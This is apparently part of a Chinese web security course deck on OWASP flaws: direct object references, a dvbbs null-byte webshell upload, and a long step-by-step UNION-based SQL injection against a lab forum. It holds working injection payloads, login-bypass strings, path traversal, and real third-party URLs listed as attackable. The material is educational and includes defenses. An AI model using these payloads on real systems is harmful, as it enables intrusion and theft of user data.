

<!-- slide: 41 -->

## 对象直接引用

- 下面这些链接都可能被攻击……
- http://www.swscreen.co.uk/download.asp?path=/./download.asp
- http://webhelp.swu.ac.th/download.asp?file=download.asp
- http://www.lgmazak.com.cn/LGMazak/Sales/DownLoad/DownLoad.aspx?File=/LGMazak/Sales/DownLoad/DownLoad.aspx
- http://60.28.77.221:8080/haiyou/upload/download.jsp?file=index.jsp

<!-- slide: 42 -->

## 其他资源类型

- 例如某Web应用允许用户查询自己账号的余额信息，其链接如下：
- http://..../history.jsp?userid=?
- 有心的用户可能填写其他用户的id再访问，如果开发者在服务器端没有进行权限控制，判断此id是否能被当前会话的用户访问，就可能泄露其他用户的隐私信息。
- 复杂的系统存在大量的相互引用访问，如果开发者不能有效地进行权限控制，就可能被恶意引用。

<!-- slide: 43 -->

## 真实的故事

- Google-Docs用户可以偷窃所有其他用户的文档！

- 在google-docs上有个链接可以将您的文档发送给合作者。
- GET /Dialogs/EmailDocument?DocID=<ANY DOC ID HERE> HTTP/1.1
- 然而，google却没有检查参数中的DOCID是否属于您。所以，您可以猜测他人文档的ID并利用这个链接让google把文档邮给您。
- http://xs-sniper.com/blog/2007/09/28/all-your-google-docs-are-belong-to-us/

<!-- slide: 44 -->

## 防范措施

- 此类漏洞没有统一的防范措施。要求编码者有良好的安全意识，在编写资源访问代码时，要仔细考虑资源引用是否可以被黑客篡改。
- Php应用常见的Remote/Local File Inclusion（简称RFI/LFI）漏洞就是因为系统在包含脚本文件时，包含的路径可被黑客篡改。
- 2007年9月26日16:00点在http://www.milw0rm.com/webapps.php的前几个漏洞如下：
- 2007-09-26 FrontAccounting 1.13 Remote File Inclusion Vulnerabilities
- 2007-09-24 sk.log <= 0.5.3 (skin_url) Remote File Inclusion Vulnerability
- 2007-09-24 DFD Cart 1.1 Multiple Remote File Inclusion Vulnerabilities
- 2007-09-23 phpFullAnnu (PFA) 6.0 Remote SQL Injection Vulnerability
- 2007-09-23 helplink 0.1.0 (show.php file) Remote File Inclusion Vulnerability
- 2007-09-23 PHP-Nuke addon Nuke Mobile Entartainment LFI Vulnerability
- 2007-09-23 Wordsmith 1.1b (config.inc.php _path) Remote File Inclusion Vuln
- 2007-09-22 Black Lily 2007 (products.php class) Remote SQL Injection Vulnerability
- 2007-09-22 Clansphere 2007.4 (cat_id) Remote SQL Injection Vulnerability
- 2007-09-21 CMS Made Simple 1.2 Remote Code Execution Vulnerability
- 2007-09-21 iziContents <= RC6 (RFI/LFI) Multiple Remote Vulnerabilities
- 2007-09-21 Joomla Component com_slideshow Remote File Inclusion Vulnerability
- 2007-09-21 neuron news 1.0 (index.php q) Local File Inclusion Vulnerability

<!-- slide: 45 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 46 -->

## 恶意代码执行

| A3 | 恶意代码执行 Malicious File Execution | 1.如果Web应用允许用户上传文件，但对上传文件名未作适当的过滤时，用户可能上载恶意的脚本文件（通常是Web服务器支持的格式，如ASP，PHP等）； 2. 脚本文件在Include子文件时，如果Include路径可以被用户输入影响，那么可能造成实际包含的是黑客指定的恶意代码； 上述两种情况是造成恶意代码执行的最常见原因。 |
|---|---|---|

- 目标：将WebShell或木马程序上传到服务器中！
- 方法：一种情况是Web应用提供了上传接口；还有一种情况是通过SQL注入直接利用底层数据库或操作系统的上传接口。第二种方法在SQL注入部分再介绍。

<!-- slide: 47 -->

## 恶意代码执行：Case dvbbs

- ‘将提交表单的filepath字段赋值给formPath变量
- formPath=upload.form("filepath")
- ……
- ‘检查文件扩展名，必须是图像文件
- if CheckFileExt(fileEXT)=false then
- ……
- ’利用formPath变量生成最终保存在服务器的文件名
- filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
- ……
- ‘存盘
- file.SaveToFile Server.mappath(filename)
- filepath
- formPath
- filename
- 存盘
- 用户输入
- Dvbbs是国内著名的开源论坛，其7.2 SP2版本以下都存在一个严重的任意文件上传漏洞。漏洞点在用户修改个人资料时允许从本地上传图像做头像，主要代码片段如下（upfile.asp）：

<!-- slide: 48 -->

## 恶意代码执行：Case dvbbs

- Step 1.注册一个普通用户，并修改基本资料，其中提供了头像上传界面。


<!-- slide: 49 -->

## 恶意代码执行：Case dvbbs

- Step 2. 为了更仔细了解这个页面，使用IE的查看源码功能，发现文件上传是一个Iframe.


- Step 3. 直接在IE中访问这个iframe页面，出现了一个简洁的上传接口.

<!-- slide: 50 -->

## 恶意代码执行：Case dvbbs

- Step 4. 再仔细查看这个页面的源代码，发现filepath字段.可惜是隐藏的，注意编码方式：multipart/form-data。

- Step 5. 打开WebScarab，设置IE代理为本地8008端口，并使用WebScarab的揭示隐藏字段的功能：


- 揭示隐藏字段

<!-- slide: 51 -->

## 恶意代码执行：Case dvbbs

- Step 6. 我们在filepath后面追加上\web.asp@
- 然后把我们要上传的恶意asp文件（一个asp编写的远程控制页面，也即通常说的WebShell）改名为web.jpg，上传；


<!-- slide: 52 -->

## 恶意代码执行：Case dvbbs

- Step 7.注意打开webscarab的拦截功能


<!-- slide: 53 -->

## 恶意代码执行：Case dvbbs

- Step 8.关键一步：将@替换为16进制的00,于是
- formPath=uploadFace\web.asp\0
- 服务器端最后生成的
- Filename = formPath&时间&.&jpg
- 因此web.jpg文件上传后，服务器保存为
- Filename=uploadFace\web.asp


> 备注：http://www.yunsec.net/a/security/web/jbst/2012/0212/10080.html

<!-- slide: 54 -->

## 恶意代码执行：Case dvbbs

- Step 8.访问web.asp，显示出我们的webshell，登录密码是12345；

- 这种攻击又成为“空字节注入”，通常适用于multipart/form-data方式提交的HTTP请求，且一般文件上传都使用此类请求。
- 空字节可以被插入到文件名，这样文件名可以被添加任意扩展名，而写入文件的时候，空字节以后的部分都会被忽略掉。
- 。

<!-- slide: 55 -->

## 防范措施

- 首先编码者需要对上传页面代码严格把关，特别是在保存文件的时候，考察可能出现的异常字符，如../，..\，空字符等。
- 其次，对文件扩展名检查要采取“允许jpg,gif…”这样的检查，而不要采取“不允许asp…”这样的检查；例如IIS允许执行.asa类型的脚本。案例：
- http://www.krcert.or.kr/english_www/inc/download.jsp?filename=IN2005016.pdf
- 最好对上传文件的目录设置不可执行，这可以通过web服务器配置加固实现。

<!-- slide: 56 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 57 -->

## 注入攻击：OWASP 2007 Top 2

| A2 | 注入 Injection Flaws | 如果Web应用没有对攻击者的输入进行适当的编码和过滤，就用于构造数据库查询或操作系统命令时，可能导致注入漏洞。 攻击者可利用注入漏洞诱使Web应用执行未预见的命令（即命令注入攻击）或数据库查询（即SQL注入攻击）。 | 搜索用户 |
|---|---|---|---|

- 目标：借Web应用的”刀“来攻击服务器数据库或操作系统
- 方法：检查Web应用调用数据库服务器或操作系统功能所有调用点，检查是否能构造恶意输入，进而影响调用命令。下面重点讲解SQL Injection。

- 操作系统
- Web应用
- 数据库服务器
- 恶意输入../../../etc/passwd
- OK!
- 1
- 2
- 3
- 调用数据库查询
- 直接调用操作系统命令
- 通过数据库调用操作系统命令

<!-- slide: 58 -->

## SQL Injection：字符串参数

- /login.asp
- 管理员

- 管理员
- 程序员考虑的场景:
- Username: admin
- Password: p@$$w0rd
- SELECT COUNT(*)
- FROM Users
- WHERE username='admin' and password='p@$$w0rd'
- 登录成功！

<!-- slide: 59 -->

## SQL Injection ：字符串参数

- 程序员未预料到的结果……
- Username: admin' OR 1=1 --
- Password: 1
- SELECT COUNT(*)
- FROM Users
- WHERE username='admin' OR 1=1 -- 'and password='1'

- /login.asp
- 攻击者
- 登录成功！
- ‘是SQL字符串变量的定界符
- 攻击关键
- 通过定界符成功地将攻击者的意图注入到SQL语句中！
- 通过注释保证SQL语句正确！
- --是MS SQL的注释符

> 备注：SQL命令对于传入的字符串参数是用单引号字符所包起来。（但连续2个单引号字符，在SQL数据库中，则视为字符串中的一个单引号字符）
SQL命令中，可以注入注解（连续2个减号字符 -- 后的文字为注解，或“/*”与“*/”所包起来的文字为注解）

<!-- slide: 60 -->

## SQL Injection可能影响的系统

- 几乎所有的关系数据库系统和相应的SQL语言都面临SQL注入的潜在威胁
  - MS SQL Server
  - Oracle
  - MySQL
  - MS Access
  - Postgres, DB2, Sybase, Informix, 等等
- 各种后台语言/系统进行数据库访问的方式
  - ASP, JSP, PHP
  - 访问后台数据库的Perl和CGI脚本
  - XML, XSL 和XSQL
  - VB, MFC, 以及其他基于ODBC的工具和API
  - 等等

<!-- slide: 61 -->

## SQL Injection：数字参数

- 管理员
- 程序员考虑的场景:
- age: 20
- SELECT name, age, location
- FROM Users
- WHERE age>20
- 程序员未预料到的结果……
- age: 1000000 union select name, age, password from users
- SELECT name, age, location
- FROM Users
- WHERE age>999 union select name, age, password from users
- Fact：
- 大多数程序员都注意到了’的问题，他们用’’来代替用户输入的’，从而防止字符串SQL注入；
- 但很多人缺忽略了同样严重的数字注入问题。其防范方法是检查用户输入的数字是否合法。
- Union暴库是常见的注入方法
- Union语法要求前后两句SQL中Select的数据项类型和数量一致;这两句sql都符合string,int,string的模式
- >999是不可能符合的条件，这样union的结果就只剩第二句sql查询的内容

> 备注：暴库，就是通过一些技术手段或者程序漏洞得到数据库的地址，并将数据非法下载到本地。黑客非常乐意于这种工作，为什么呢？因为黑客在得到网站数据库后，就能得到网站管理账号，对网站进行破坏与管理，黑客也能通过数据库得到网站用户的隐私信息，甚至得到服务器的最高权限。

看看这里，了解union的作用
http://www.w3school.com.cn/sql/sql_union.asp

<!-- slide: 62 -->

## 打开论坛，不用登录，直接查看用户属性


- SQL Injection：Case
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=1

<!-- slide: 63 -->

## 一个简单的测试显示这里可能存在注入漏洞。从错误看出是MS SQL Server。

从链接的形式id=?来看应该可能是数字型。因此’报错是必然的。

从报错来看，程序员把’替换成了’’

- SQL Injection：Step 1

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2’

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2’

id估计是数字，所以，加一个字符，进行试错
从错误的形式可以看出数据库出错了，因此，这里肯定有读写数据库的操作，因此可能可以进行数据库注入
竟然有异常信息，透露了很多重要信息

<!-- slide: 64 -->

## 用—试验，发现出来了一部分数据，test用户名及其email地址，这证明至少有一条SQL正确运行。

但是依然有SQL报错，很可能是后台有两条SQL语句都分别用到了id变量，而两语句使用的环境不同。


- SQL Injection：Step 2
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2--

--是注释符号，后面的数据库查询代码都被忽略了
出现了邮件地址结果，因此说明至少有一部分数据库查询代码正确
而依然有错误，说明后面的sql语句出错

两个sql查询语句在不同的代码行，分别用来获取用户不同信息

<!-- slide: 65 -->

## 实际情况是第一条SQL是where id=? …，第二条SQL是where (id=?) and (xx=xx)

因此要第二条不错，id只能用2)--，但这样第一条又会出错，难以两全。

从错误行号来看，第一句SQL位于84行，第二句SQL位于207行。

- SQL Injection：Step 3

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2)--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2)--

Where (id = 2)—) and （xx=xx)

<!-- slide: 66 -->

## 对于Select查询，几乎都可以用Union查询来暴库。
Union要求前后两句对应的数据项数量相同，类型一致，因此需要首先检查第一句SQL的数据项数量。
方法是用order by n，逐步增加n。

- SQL Injection：Step 4

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 order by 30—

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 order by 30—

看select有多少字段

<!-- slide: 67 -->

## N=30正常，N=31错误！因此第一句SQL有30项。

- SQL Injection：Step 5

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 order by 31--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 order by 31--

<!-- slide: 68 -->

## 由于union还要求类型一致，30项要逐个猜测类型是不现实的，因此用通配符null! 准备30个null。提示这个错误的原因说明前一句sql中有image类型，而union缺省是distinct的，要解决这个问题，使用union all即可。


- SQL Injection：Step 6
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

Union的作用是两个联合在一起的sql查询的结果集的并集,union除重,union all不除重
Union 只需要类型一致,如果传入的是null的话,实际上没有进行查询

<!-- slide: 69 -->

## 使用Union All后，
终于又看到了test的信息。

- SQL Injection：Step 7
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 union all select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=2 union all select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

<!-- slide: 70 -->

## 调整union第一句的条件为
“不可能满足”，
这样显示出来的始终是第二句,
即使为null

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

- SQL Injection：Step 8
- 这两个位置显示的是30项null中的某两个。因此可以利用这里来回显信息！

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

<!-- slide: 71 -->

## 需要找到这两个数据位于30个null中的何处。首先试验把第二个null换成字符型的’null’。错误提示有语法错误。

- SQL Injection：Step 9
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,'null',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,'null',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null—

Select可以加入

<!-- slide: 72 -->

## 如果对SQL语法熟悉的话，
就知道有一个char函数可供利用

- SQL Injection：Step 10
- 64是@的ASCII码数值，10进制。@成功回显
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,char(64),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,char(64),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

为什么可以用char(64)，应该是直接返回了@（或A），而没有从表里查

The following MySQL statement returns character values (according to the ASCII table) of the integers 67, 72, 65 and 82.
SELECT CHAR(67,72,65,82);

<!-- slide: 73 -->

## SQL Injection：Step 11

- 试出两个回显点的位置：

- 第二个null位置回显于此处
- 第四个null位置回显于此处
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,char(64),null,char(65),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,char(64),null,char(65),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--

<!-- slide: 74 -->

## SQL Injection：Step 12

- 把后面的sql替换成select null,password,null,...,null from users的形式，
- 希望能显示一个密码，但是失败了。
- 系统不存在users表。
- 再猜测几个表发现依然失败。
- 看来仅仅靠猜测是不行的。
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from users--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,password,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from users--

<!-- slide: 75 -->

## 不同的数据库都有系统表，可以利用来枚举表结构

- 在不同的DBMS枚举表结构
  - MS SQL
    - SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘表名 ')
    - sp_columns tablename (这个存储过程可以列举表的字段名)
  - MySQL
    - show columns from tablename
  - Oracle
    - SELECT * FROM all_tab_columnsWHERE table_name=‘表名'

<!-- slide: 76 -->

## 数据库系统表

- Oracle
  - SYS.USER_OBJECTS
  - SYS.TAB
  - SYS.USER_TABLES
  - SYS.USER_VIEWS
  - SYS.ALL_TABLES
  - SYS.USER_TAB_COLUMNS
  - SYS.USER_CATALOG
- MySQL
  - mysql.user
  - mysql.host
  - mysql.db
- MS Access
  - MsysACEs
  - MsysObjects
  - MsysQueries
  - MsysRelationships
- MS SQL Server
  - sysobjects
  - syscolumns
  - systypes
  - sysdatabases

> 备注：This is a list of some of the useful metadata system tables in different databases.

<!-- slide: 77 -->

## SQL Injection：Step 13

- 查询一下是否有列名为pass(word)的表，
- 首先简单测试一下：
- Select name from syscolumns where name like ‘%p%’
- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from syscolumns where name like char(0x25)%2Bchar(0x70)%2Bchar(0x25)--

- 有一列为parent_obj符合条件

